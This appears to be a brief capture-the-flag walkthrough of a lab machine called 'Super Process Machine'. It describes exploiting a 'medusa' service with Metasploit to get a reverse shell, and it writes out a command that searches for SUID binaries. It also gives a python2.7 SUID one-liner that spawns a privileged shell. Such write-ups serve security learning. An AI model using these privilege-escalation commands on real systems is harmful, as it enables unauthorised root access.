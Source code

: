 # Super Process Machine

Start with scan IP of machine

![image.png](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4 (1) (1).png" alt=""><figcaption></figcaption></figure>
